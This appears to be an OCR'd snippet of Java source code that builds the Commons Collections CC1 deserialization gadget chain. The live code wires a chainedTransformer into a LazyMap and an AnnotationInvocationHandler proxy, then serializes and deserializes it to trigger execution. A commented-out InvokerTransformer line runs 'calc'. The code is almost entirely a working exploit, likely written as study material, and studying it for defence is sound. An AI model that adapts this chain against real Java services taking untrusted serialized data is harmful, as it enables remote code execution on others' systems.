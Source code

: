 ```plain
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

//        HashMap<Object,Object> map = new HashMap<>();
//        map.put("value","aaa");
//        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

//        for(Map.Entry entry:transformedmap.entrySet()){
//            entry.setValue(r);
//        }
//        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
//        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
//        annotationInvocationhdlConstructor.setAccessible(true);
//        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


//设置chainedTransformer在Lazymap中的值
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```
